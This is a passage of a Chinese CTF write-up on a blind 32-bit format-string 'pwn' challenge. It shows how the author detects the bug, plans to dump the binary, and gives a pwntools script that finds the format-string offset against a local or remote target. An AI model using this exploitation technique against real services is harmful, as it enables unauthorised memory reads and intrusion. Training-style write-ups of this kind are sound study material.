 # Blindpwn-32位有偏移

## 题目分析

首先没有题目,只有端口,连接上去,测试,发现,存在格式化字符串漏洞

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191104141407.png)

然后同时也没有任何数据的回显,只是不断的重复循环,输出你输入的内容

这里需要注意的是,可以通过输入空格或者特殊字符来初步猜测的判断,输入函数是gets还是scanf还是read...因为这三者对于输入的数据的读取是不同的,就比如我本次输入1\n,它却显示了两个换行,那么这个很可能是read函数用来接收输入,但这里只能是猜测

那么,开始思考,我们目前没有任何有用的信息,该如何获取到有用的信息

这里就需要对于pwn进行盲打,dump整个程序下来...

然后根据dump下来的程序来寻找程序的地址,进行分析

同时因为上面输入%p 返回的是4个字节的数据,所以是32位程序

## dump程序

### 计算偏移

dump程序需要首先知道格式化字符串函数的偏移

所以step 1--计算偏移

由于不喜欢手算,直接pwntools跑

```python
#-*- coding:utf-8 –*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level='debug'
context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')
#log_level=['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
elfFileName = "justtest"
libcFileName = ""
ip = "0.0.0.0"
port = 10001

Debug = 1
if Debug:
    io = process(elfFileName)
else:
    io = remote(ip,port)

# calculate the offset
def exec_fmt(payload):
	io.recvuntil("\nPlease tell me:")
	io.sendline(payload)
	info = io.recvuntil("\n")
	return info


auto = FmtStr(exec_fmt)
offset = auto.offset
print "offset is "+ str(offset)

io.interactive()

'''
```